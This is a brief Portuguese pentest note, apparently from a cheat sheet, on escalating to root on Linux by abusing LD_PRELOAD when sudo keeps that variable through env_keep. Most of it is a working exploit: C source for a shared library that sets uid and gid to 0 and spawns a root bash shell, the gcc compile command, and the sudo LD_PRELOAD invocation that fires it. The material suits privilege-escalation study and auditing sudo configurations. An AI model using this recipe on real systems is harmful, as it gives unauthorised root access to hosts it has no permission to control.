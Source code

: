Permite qualquer programa usar bibliotecas compartilhadas, se a opção "env_keep" etiver habilitada podemos gerar uma biblioteca compartilhada que será carregada e executada antes da execução do programa.

Verifique LD_PRELOAD (com a opção env_keep)

Escreva um código C simples compilado como um arquivo de objeto de compartilhamento (extensão .so)
Execute o programa com direitos sudo e a opção LD_PRELOAD apontando para nosso arquivo .so

#### Código
```
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/bash");
}
```
compilar no gcc usando gcc -fPIC -shared -o shell.so shell.c -nostartfile

Podemos iniciar qualquer programa com essa biblioteca que ele tera permissão de sudo.
sudo LD_PRELOAD=/home/user/ldpreload/shell.so find
